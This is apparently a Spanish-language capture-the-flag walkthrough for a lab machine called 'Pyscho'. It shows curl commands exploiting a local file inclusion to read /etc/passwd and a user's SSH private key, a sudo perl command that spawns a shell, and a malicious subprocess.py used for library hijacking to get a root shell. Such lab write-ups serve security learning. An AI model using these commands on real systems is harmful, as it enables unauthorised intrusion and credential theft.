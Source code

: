 <h1><b>Pyscho</b></h1>
<hr>

![Captura](https://github.com/user-attachments/assets/4290d8de-0c8d-42b3-9b46-cae794e60379)

<h2>Reconocimiento</h2>
<hr>
Realizamos un escaneo con nmap
<br>

![nmap](https://github.com/user-attachments/assets/3d6ed8c0-60c4-47d1-876d-efe438932484)

Despues se suele realizar otro escaneo para ver la version y mas informacion que podamos sacar con los script pero para esta maquina no es necesario. Viendo el puerto 80 y 22 abierto procedemos a ingresar a la pagina web <br>

![pagina](https://github.com/user-attachments/assets/71ee3486-a379-4012-a71f-914940acd462)

Viendo la pagina ninguno de los botones funciona, y al final de esta pordemos observar:<br>

![image](https://github.com/user-attachments/assets/1d22b092-2a49-4f5a-b251-980d29c98a27)

Podemos observar que hay un ERROR al final de la pagina, esto podia indicar que algo se esta cargando mal, pero es toda la informacion que nos dan, para entender mejor como se este originando posiblemente esta falla necesitaremos encontrar la tecnologia en la que esta funcionando la pagina web:<br>

![image](https://github.com/user-attachments/assets/c5a59054-3ca3-4709-9e5c-9977be824c16)

![image](https://github.com/user-attachments/assets/bc2f061c-4341-4f48-a271-fff0b18eecd7)

whatweb no nos da mucha informacion pero con gobuster vemos index.php.

Entonces,que tenemos hasta el momento?
<ul>
  <li>La pagina esta cargando mal algo</li>
  <li>Esta usando php</li>
</ul>

Con esto podemos llegar a la conclusion que la pagina esta usando un include() en php en cual podemos derivarlo a un <a href="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#file-inclusion" >Local File Inclusion </a>

No conocemos el parametro dentro de index.php, por lo tanto podemos proceder a fuzzear con la herramienta <a href="https://github.com/xmendez/wfuzz">wfuzz</a><br>

![image](https://github.com/user-attachments/assets/3cf9e007-1f79-43d1-b579-1cbcbe41ed8c)

Como podemos ver <b>secret</b> es el parametro que esta haciendo el include, primero veremos que usuarios hay en el sistema en /etc/cat

```bash
curl http://ip de la maquina/index.php?secret=/etc/passwd
```
![image](https://github.com/user-attachments/assets/f3820ae8-8ccb-46ee-aba3-6617ffb65217)
<br>
<h2>Foothold</h2>
<hr>

Podemos ver unas cuantas accounts, recordemos que la maquina cuenta con un servicio ssh, por lo tanto podemos realizar fuerza bruta a estas cuentas con hydra o buscar por las llaves. <br>

```bash
/home/luisillo/.ssh/id_rsa
/home/vaxei/.ssh/id_rsa
```
<br>
Probamos con las 2 y encotramos la llave para vaxei<br>

```bash
curl http://ip de la maquina/index.php?secret=/home/vaxei/.ssh/id_rsa
```
<br>

![image](https://github.com/user-attachments/assets/18b82ab6-82a0-4771-9ffb-0d3a714c0ae1)
<br>

Ahora entonces teniendo el ssh podriamos logearnos al menos que nos pidan una frase para ingresar.

>[!] Tip
>
>El archivo id_rsa debe tener permisos 600.
>
>Algunos id_rsa estan cifrados con un passphrase, que en ciertos casos necesitaras para que tu key sea aceptada<br>


![image](https://github.com/user-attachments/assets/919a1435-03f1-475a-a017-f15b279e44d6)

<br>
<h2>Lateral Movement</h2>
<hr>

De las primeras cosas que se suelen hacer en una maquina suele ser

```bash
sudo -l
id
Revisar /var/www/html
ps aux
etc
```

Con sudo -l nos saldra todos los permisos que podemos ejecutar como sudo si es que existe alguno, encontramos:
<br>

![image](https://github.com/user-attachments/assets/68746a92-227e-4048-b633-7394437417ff)

<br>

Ya que podemos ejecutar perl como luisillo, y al ser perl un lenguaje de programacion el proceso de escalado es sencillo con <a href="https://gtfobins.github.io/#">GTFOBins</a>


```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
```
<br>

![image](https://github.com/user-attachments/assets/cf2a6c26-88a3-4e52-b6f7-0c6ccd0094d2)

<br>
<h2>Escalada de Privilegios</h2>
<hr>

Igual que el anterior probramos sudo -l <br>

![image](https://github.com/user-attachments/assets/6f5712f2-6a00-45c4-8b06-edc0cb77f940)

<br>

Al parecer sudoers nos permite ejecutar el script mas no modificarlo.

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

Viendo el codigo vemos que las librerias se estan insertando de forma insegura, es ahi donde nosotros haremos un <a href="https://deephacking.tech/path-hijacking-y-library-hijacking/">Library Hijacking</a>.<br>

Crearemos un archivo llamado subprocess.py de esta forma:

```python
import os
os.system("/bin/bash -p")
```
<br>
Ejecutamos de esta manera:
<br>

![image](https://github.com/user-attachments/assets/0623128d-d221-4f67-a670-a838b457fcb2)

<br>

y de esta manera finalizamos la maquina.

HackTheBox: billyelcalvo
